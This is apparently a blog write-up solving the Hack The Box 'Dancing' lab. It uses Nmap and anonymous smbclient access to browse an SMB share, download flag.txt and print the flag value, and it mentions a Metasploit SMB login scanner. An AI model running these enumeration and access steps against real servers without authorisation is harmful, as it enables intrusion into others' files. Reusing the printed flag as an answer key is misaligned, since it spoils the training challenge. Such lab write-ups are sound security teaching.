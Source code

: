 ```yaml
---
layout: post
title: "Dancing – Hack The Box"
categories: htb
date: 2025-07-19
---
```


## 🧠 Summary
The Dancing machine from HTB Starting Point demonstrates enumeration and exploitation of SMB shares using anonymous access. We'll use **Nmap** for scanning and **smbclient** for accessing shares without credentials.

---

## 🔍 Tools Used
- **Nmap** – Network scanning and service enumeration
- **smbclient** – SMB share access and file retrieval

---

## ✅ Steps to Exploit

### 1. Reconnaissance with Nmap
First, scan the target for open ports and services:
```bash
nmap -sC -sV 10.129.207.91
```
Result:

![Nmap Scan Result](/assets/img/htb/dancing/nmapdancing.jpg)

Key Findings:
- Port 135 → Microsoft RPC
- Port 139 → NetBIOS
- Port 445 → SMB (microsoft-ds)

### 2. Enumerate SMB Shares
List available shares anonymously:
```bash
smbclient -L \\\\10.129.207.91\\ -N
```
**-L** : To list available shares

**-N** : No password prompt (useful for anonymous/guest access)

Result: Found a share named WorkShares

![List of SMB Shares](/assets/img/htb/dancing/smbshares.jpg)

### 3. Access the WorkShares Share
Connect without a password:
```bash
smbclient \\\\10.129.207.91\\WorkShares -N
```
List the folders:
```bash
ls
```
We will see:
```bash
Amy.J
James.P
```

### 4. Browse Directories and Find the Flag
Navigate into Amy.J:
```bash
cd Amy.J
ls
```
File found: worknotes.txt (not needed for flag, but useful for context)

Go back and enter James.P:
```bash
cd ..
cd James.P
ls
```
Here we find flag.txt:
![Get Flag File](/assets/img/htb/dancing/getflag.jpg)


### 5. Download and Read the Flag
Download the flag file:
```bash
get flag.txt
```
Read it locally:
```bash
cat flag.txt
```
Flag:
```bash
5f61c10dffbc77a704d76016a22f1664
```
![Read Flag File](/assets/img/htb/dancing/readflag.jpg)

### Alternative Method (Optional)
You could also enumerate SMB shares using enum4linux or exploit with Metasploit:
```bash
use auxiliary/scanner/smb/smb_login
```

### Key Takeaways
- SMB shares are often misconfigured for anonymous access.
- Always start with Nmap, then enumerate with smbclient.
- Use Metasploit or enum4linux for automation in real-world scenarios.
